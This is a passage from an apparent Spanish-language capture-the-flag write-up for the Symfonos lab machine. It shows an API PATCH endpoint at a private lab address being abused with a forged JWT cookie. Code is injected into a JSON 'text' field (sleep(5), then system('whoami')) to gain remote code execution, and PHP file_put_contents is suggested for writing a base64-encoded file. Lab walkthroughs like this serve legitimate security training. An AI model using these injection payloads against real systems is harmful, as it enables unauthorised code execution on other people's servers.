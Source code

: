 ![curl](https://helhat.github.io/assets/img/Symfonos/curl.png){: .normal }

Vemos que la ruta ,el header y el contenido es correcto.

D)Posts
![achilles16](https://helhat.github.io/assets/img/Symfonos/achilles16.png){: .normal }
![achilles17](https://helhat.github.io/assets/img/Symfonos/achilles17.png){: .normal }

Vemos en script que tenemos un PATCH que permite subir archivo en /posts, entonces esto nos hace pensar que podemos subir un recurso malicioso y entrando en /posts cargaremos el archivo. Utilizando el ID.

![achilles18](https://helhat.github.io/assets/img/Symfonos/achilles18.png){: .normal }

En la ruta encontrada, vemos un campo text que vale todo el texto descripcion de Achilles.

![resp2](https://helhat.github.io/assets/img/Symfonos/resp2.png){: .normal }

Pero que sucede, si en este campo *text*, podemos ingresar un payload?
Entonces buscaremos un parametro *text*.

![achilles19](https://helhat.github.io/assets/img/Symfonos/achilles19.png){: .normal }

Es aqui, donde observamos que requiere de un campo llamado text, necesario para subir un payload.

![achilles20](https://helhat.github.io/assets/img/Symfonos/achilles20.png){: .normal }

### RCE
Por ultimo Explotamos el JWT, generando una petición PATCH en el endpoit /posts/ con ID:1, el token y el recurso modificado.

```bash
curl -s -X PATCH "http://192.168.65.146:5000/ls2o4g/v1.0/posts/1" -H "Content-Type: application/json" -d '{"text":"prueba"}' -b 'token=asdasdasdad'
```
Como respuesta vemos que *text* muestra prueba

![curl2](https://helhat.github.io/assets/img/Symfonos/curl2.png){: .normal }
![prueba](https://helhat.github.io/assets/img/Symfonos/prueba.png){: .normal }
![prueba2](https://helhat.github.io/assets/img/Symfonos/prueba2.png){: .normal }

Ahora podemos ingresar un comando para comprobar si tenemos RCE

```
sleep(5)
```
Ya verificado que interpreta el sleep.Podemos aplicar la siguiente linea:

```
-d $'{"text":"system('\whoami\')"}' 
```

> Para evitar que entre en conflicto por tantas comillas. Podemos aplicar una funcion con php, llamada *file_put_contents*, que crea un archivo y luego declaras su contenido, para este contenido, lo ingresaremos en base64
